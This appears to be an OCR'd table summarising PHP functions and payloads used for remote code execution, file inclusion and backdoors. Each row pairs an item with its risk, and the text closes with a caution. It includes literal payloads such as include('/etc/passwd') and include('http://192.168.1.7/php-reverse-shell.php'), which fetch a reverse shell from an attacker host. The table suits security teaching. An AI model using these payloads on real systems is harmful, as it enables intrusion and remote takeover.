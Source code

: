      Summary                                                       Table
    
    Payload =                                                     / Function	Description and Risk
    
    escapeshellcmd	=                                            Sanitizes shell commands to help prevent injection, but partial.
    
     include, require	=                                        Includes PHP files; risk of RFI/LFI if input untrusted.
    
     file_put_contents	 =                                       Writes data to files; risk of backdoor creation.
    
     file_get_contents	 =                                       Reads file/URL contents; info disclosure or remote code fetch.
    
     eval	   =                                                 Executes arbitrary PHP code; critical RCE vector.
    
     include('/etc/passwd')	 =                                   Attempts local file inclusion; generally fails but shows info.
    
     include('http://192.168.1.7/php-reverse-shell.php') =       Remote file inclusion; executes attacker's code remotely.
    
     require('/etc/passwd')	 =                                   Same as include; includes local sensitive file.
    
     require('http://192.168.1.7/php-reverse-shell.php')=	    Remote file inclusion for code execution.
    
    Writing PHP files with file_put_contents	=                Deploys new PHP scripts on server for info disclosure or control.
    
     Reverse shell PHP code written via file_put_contents  =  	Opens a remote shell for attacker control.
    
     Reading /etc/passwd with file_get_contents   =              Reads sensitive system info file.
    
    Executing code dynamically with eval	=                    Executes arbitrary PHP code strings.
    
    Writing file upload handler to file      =                  	Enables file uploads without validation, risk of malware upload.
    

These payloads reflect common methods attackers use to achieve Remote Code Execution, file inclusion, information disclosure, and unauthorized control in vulnerable PHP applications.

Exercise extreme caution and follow security best practices to avoid these risks.
